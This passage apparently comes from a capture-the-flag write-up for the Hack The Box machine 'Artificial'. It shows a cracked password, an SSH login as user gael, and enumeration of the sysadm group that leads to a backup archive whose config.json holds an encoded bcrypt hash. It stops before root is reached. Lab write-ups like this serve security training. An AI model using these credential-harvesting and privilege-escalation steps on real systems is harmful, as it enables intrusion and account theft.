 ```bash
Candidates.#1....: seaford123 -> giuli94
Hardware.Mon.#1..: Temp: 46c Fan:  0% Util: 20% Core:2640MHz Mem:10251MHz Bus:16

Started: Mon Jul  7 14:26:17 2025
Stopped: Mon Jul  7 14:26:19 2025
```

I connect via ssh to the server with credentials:
- user: gael
- password: mattp005numbertwo

```bash
ssh gael@artificial.htb
gael@artificial.htb's password: 
gael@artificial:~$ whoami
gael
```

### User root

I check if the user gael has permissions to run commands as root with `sudo -l`, but the system indicates that no sudo privileges are assigned.

```bash
gael@artificial:~$ sudo -l
[sudo] password for gael: 
Sorry, user gael may not run sudo on artificial.
```

I run the `id` command to see which groups gael belongs to and find that he belongs to a sysadm group:

```bash
gael@artificial:~$ id
uid=1000(gael) gid=1000(gael) groups=1000(gael),1007(sysadm)
```

Now I search for system files with group permissions for sysadm:

```bash
gael@artificial:~$ find / -group sysadm -ls 2>/dev/null
293066  51132 -rw-r-----   1 root     sysadm   52357120 Mar  4 22:19 /var/backups/backrest_backup.tar.gz
```

I transfer the backrest_backup.tar.gz file to my machine, extract it, and find a .config directory with a config.json:

```bash
cat config.json 
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}
```
